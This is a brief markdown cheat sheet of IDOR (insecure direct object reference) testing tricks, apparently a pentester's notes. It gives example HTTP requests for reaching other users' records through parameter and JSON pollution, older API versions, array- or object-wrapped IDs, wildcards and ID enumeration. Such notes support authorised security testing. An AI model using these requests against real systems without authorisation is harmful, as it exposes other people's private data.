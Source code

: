 # IDOR

Basically try to screw with evertything.

Add parameters into the endpoints
```
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT

https://pentestbook.six2dez.com/enumeration/web/idor
